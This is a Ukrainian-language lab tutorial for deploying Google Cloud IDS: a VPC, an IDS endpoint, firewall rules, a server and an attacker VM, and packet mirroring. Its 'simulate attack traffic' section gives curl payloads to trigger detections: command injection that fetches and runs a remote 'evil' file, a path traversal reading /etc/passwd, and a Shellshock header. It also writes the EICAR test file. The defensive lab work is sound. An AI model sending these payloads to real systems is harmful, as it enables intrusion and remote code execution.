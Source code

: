 # Розгортання хмарної системи виявлення вторгнень (Cloud IDS)

## Увімкнути API, необхідні для розгортання

1) У Cloud Shell, щоб встановити змінну середовища Project_ID , виконайте таку команду:

```sh
export PROJECT_ID=$(gcloud config get-value project | sed '2d')
```

2) Увімкніть Service Networking API:

```sh
gcloud services enable servicenetworking.googleapis.com \
    --project=$PROJECT_ID
```

3) Увімкніть Cloud IDS API:

```sh
gcloud services enable ids.googleapis.com \
    --project=$PROJECT_ID
```

4) Увімкніть Cloud Logging API:

```sh
gcloud services enable logging.googleapis.com \
    --project=$PROJECT_ID
```

## Створіть коло мережі Google Cloud. Ви створюєте мережу Google Cloud VPC і налаштовуєте доступ до приватних служб

1) У Cloud Shell, щоб створити VPC, виконайте таку команду:

```sh
gcloud compute networks create cloud-ids \
--subnet-mode=custom
```

2) Додайте підмережу до VPC для дзеркального трафіку в us-east1:

```sh
gcloud compute networks subnets create cloud-ids-useast1 \
--range=192.168.10.0/24 \
--network=cloud-ids \
--region=us-east1
```

3) Налаштувати доступ до приватних служб:

```sh
gcloud compute addresses create cloud-ids-ips \
--global \
--purpose=VPC_PEERING \
--addresses=10.10.10.0 \
--prefix-length=24 \
--description="Cloud IDS Range" \
--network=cloud-ids
```

4) Створіть приватне підключення:

```sh
gcloud services vpc-peerings connect \
--service=servicenetworking.googleapis.com \
--ranges=cloud-ids-ips \
--network=cloud-ids \
--project=$PROJECT_ID
```

## Створення кінцевої точки Cloud IDS. Cloud IDS використовує ресурс, відомий як кінцева точка IDS, зональний ресурс, який може перевіряти трафік із будь-якої зони свого регіону. Кожна кінцева точка IDS отримує дзеркальний трафік і виконує аналіз виявлення загроз

1) Щоб створити кінцеву точку Cloud IDS, у Cloud Shell виконайте таку команду (може створюватись до 20 хвилин):

```sh
gcloud ids endpoints create cloud-ids-east1 \
--network=cloud-ids \
--zone=us-east1-b \
--severity=INFORMATIONAL \
--async
```

2) Переконайтеся, що кінцева точка Cloud IDS ініційована:

```sh
gcloud ids endpoints list --project=$PROJECT_ID
```

## Створення правил Firewall і Cloud NAT

1) Щоб створити правило allow-http-icmp, у Cloud Shell виконайте таку команду:

```sh
gcloud compute firewall-rules create allow-http-icmp \
--direction=INGRESS \
--priority=1000 \
--network=cloud-ids \
--action=ALLOW \
--rules=tcp:80,icmp \
--source-ranges=0.0.0.0/0 \
--target-tags=server
```

2) Створіть правило allow-iap-proxy:

```sh
gcloud compute firewall-rules create allow-iap-proxy \
--direction=INGRESS \
--priority=1000 \
--network=cloud-ids \
--action=ALLOW \
--rules=tcp:22 \
--source-ranges=35.235.240.0/20
```

3) Щоб створити хмарний маршрутизатор, виконайте таку команду:

```sh
gcloud compute routers create cr-cloud-ids-useast1 \
--region=us-east1 \
--network=cloud-ids
```

4) Щоб налаштувати Cloud NAT, виконайте таку команду:

```sh
gcloud compute routers nats create nat-cloud-ids-useast1 \
--router=cr-cloud-ids-useast1 \
--router-region=us-east1 \
--auto-allocate-nat-external-ips \
--nat-all-subnet-ip-ranges
```

## Створіть дві віртуальні машини. Перша віртуальна машина — це ваш веб-сервер, який дзеркалює Cloud IDS. Друга віртуальна машина є джерелом вашого трафіку атаки

1) Щоб створити віртуальну машину, яка буде дзеркалом сервера в Cloud IDS, у Cloud Shell виконайте таку команду:

```sh
gcloud compute instances create server \
--zone=us-east1-b \
--machine-type=e2-medium \
--subnet=cloud-ids-useast1 \
--no-address \
--private-network-ip=192.168.10.20 \
--metadata=startup-script=\#\!\ /bin/bash$'\n'sudo\ apt-get\ update$'\n'sudo\ apt-get\ -qq\ -y\ install\ nginx \
--tags=server \
--image=debian-10-buster-v20210512 \
--image-project=debian-cloud \
--boot-disk-size=30GB
```

2) Створіть віртуальну машину як клієнта, який надсилає трафік атаки:

```sh
gcloud compute instances create attacker \
--zone=us-east1-b \
--machine-type=e2-medium \
--subnet=cloud-ids-useast1 \
--no-address \
--private-network-ip=192.168.10.10 \
--image=debian-10-buster-v20210512 \
--image-project=debian-cloud \
--boot-disk-size=10GB
```

3) Щоб установити підключення SSH до вашого сервера через IAP, виконайте таку команду:

```sh
gcloud compute ssh server --zone=us-east1-b --tunnel-through-iap
```

4) Щоб перевірити стан веб-служби, виконайте таку команду Linux:

```sh
sudo systemctl status nginx
```

5) Змінити каталог на веб-сервіс:

```sh
cd /var/www/html/
```

6) Створіть безпечний файл зловмисного ПЗ на веб-сервері:

```sh
sudo touch eicar.file
```

```sh
echo 'X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*' | sudo tee eicar.file
```

7) Вийдіть із серверної оболонки віртуальної машини та поверніться до Cloud Shell

## Створіть політику віддзеркалення пакетів Cloud IDS

1) Щоб перевірити, чи ваша кінцева точка Cloud IDS активна, у Cloud Shell виконайте таку команду, щоб показати поточний стан кінцевої точки Cloud IDS:

```sh
gcloud ids endpoints list --project=$PROJECT_ID | grep STATE
```

2) Коли стан зміниться на READY, иизначте правило переадресації кінцевої точки Cloud IDS:

```sh
export FORWARDING_RULE=$(gcloud ids endpoints describe cloud-ids-east1 --zone=us-east1-b --format="value(endpointForwardingRule)")
echo $FORWARDING_RULE
```

3) Створіть і приєднайте політику віддзеркалення пакетів:

```sh
gcloud compute packet-mirrorings create cloud-ids-packet-mirroring \
--region=us-east1 \
--collector-ilb=$FORWARDING_RULE \
--network=cloud-ids \
--mirrored-subnets=cloud-ids-useast1
```

4) Переконайтеся, що політику віддзеркалення пакетів створено:

```sh
gcloud compute packet-mirrorings list
```

## Змоделювати трафік атаки

1) Щоб установити підключення SSH до віртуальної машини зловмисника через IAP, у Cloud Shell виконайте таку команду:

```sh
gcloud compute ssh attacker --zone=us-east1-b --tunnel-through-iap
```

2) Виконайте такі curlзапити послідовно, щоб імітувати сповіщення низького, середнього, високого та критичного рівня серйозності в IDS:

```sh
curl "http://192.168.10.20/weblogin.cgi?username=admin';cd /tmp;wget http://123.123.123.123/evil;sh evil;rm evil"
```

```sh
curl "http://192.168.10.20/weblogin.cgi?username=admin';cd /tmp;wget http://123.123.123.123/evil;sh evil;rm evil"
```

```sh
curl http://192.168.10.20/cgi-bin/../../../..//bin/cat%20/etc/passwd
```

```sh
curl -H 'User-Agent: () { :; }; 123.123.123.123:9999' http://192.168.10.20/cgi-bin/test-critical
```

3) Вийдіть із оболонки віртуальної машини зловмисника та поверніться до Cloud Shell

## Перегляньте загрози, виявлені Cloud IDS

У консолі Google Cloud у навігаційному меню ( Навігаційне меню) натисніть «Безпека мережі» > «Cloud IDS» .
Перейдіть на вкладку Загрози. Cloud IDS зафіксував різні профілі трафіку атак і надав детальну інформацію про кожну загрозу.
